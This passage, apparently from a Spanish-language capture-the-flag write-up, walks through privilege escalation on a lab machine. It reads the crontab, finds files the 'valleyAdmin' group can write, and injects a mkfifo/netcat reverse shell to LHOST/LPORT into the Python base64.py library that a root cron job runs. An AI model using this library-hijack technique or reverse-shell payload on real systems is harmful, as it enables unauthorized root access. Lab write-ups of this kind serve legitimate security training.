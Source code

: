 >`ssh valley@IPTARGET`
>`./valleyAuthenticator`
>`Username : valley`
>`Pass: [REDACTED]`

Listamos las actividades programadas cron `cat /etc/crontab` y vemos un script que se ejecuta cada un minuto. Es un script que codifica imagenes en base64. Intente modificar el script queriendo generar una reverse shell pero no tuve exito. 

Enumere un poco mas el sistema, ejecutando `id` pude ver que hay un grupo llamado **valleyAdmin**, asique enumere que permisos tenia este grupo y ver si podia modificar algo para generar una reverse shell y acceder como usuario raiz. 

```bash
### Buscamos permisos 
find / -group valleyAdmin -ls 2>/dev/null

### Permisos encontrados
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

Abrimos con nano **base64.py** y agregaremos nuestra reverse shell de la siguiente forma.

```python
### Sin agregar nada, lo encontramos asi 
import re
import struct
import binascii

### Importamos el modulo 'os' en python y ejecutamos nuestra shell con os.system
import re
import struct
import binascii
import os

os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc LHOST LPORT >/tmp/f')
```

Somos root!



